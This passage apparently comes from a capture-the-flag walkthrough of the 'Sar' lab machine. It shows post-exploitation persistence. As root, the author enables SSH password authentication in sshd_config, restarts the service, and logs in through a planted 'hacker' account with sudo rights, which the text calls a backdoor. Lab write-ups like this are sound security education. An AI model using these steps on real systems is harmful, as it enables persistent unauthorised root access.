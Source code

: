 So we enable it and restart the ssh server

```
root@sar:~# echo 'PasswordAuthentication yes' >> /etc/ssh/sshd_config
echo 'PasswordAuthentication yes' >> /etc/ssh/sshd_config

root@sar:~# systemctl restart ssh
systemctl restart ssh

root@sar:~# systemctl status ssh
systemctl status ssh
WARNING: terminal is not fully functional
-  (press RETURN)
● ssh.service - OpenBSD Secure Shell server
   Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enab
   Active: active (running) since Mon 2024-03-04 08:36:59 IST; 3s ago
  Process: 1953 ExecReload=/bin/kill -HUP $MAINPID (code=exited, status=0/SUCCES
  Process: 1952 ExecReload=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
  Process: 18479 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
 Main PID: 18480 (sshd)
    Tasks: 1 (limit: 1122)
   CGroup: /system.slice/ssh.service
           └─18480 /usr/sbin/sshd -D

Mar 04 08:36:59 sar systemd[1]: Starting OpenBSD Secure Shell server...
Mar 04 08:36:59 sar sshd[18480]: Server listening on 0.0.0.0 port 22.
Mar 04 08:36:59 sar sshd[18480]: Server listening on :: port 22.
Mar 04 08:36:59 sar systemd[1]: Started OpenBSD Secure Shell server.
```

14) We test our backdoor:

```
┌──(kali㉿kali)-[~]
└─$ ssh hacker@sar     
hacker@sar's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.0.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

356 packages can be updated.
233 updates are security updates.

Your Hardware Enablement Stack (HWE) is supported until April 2023.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ whoami
hacker
$ sudo whoami
[sudo] password for hacker: 
root
$ 
```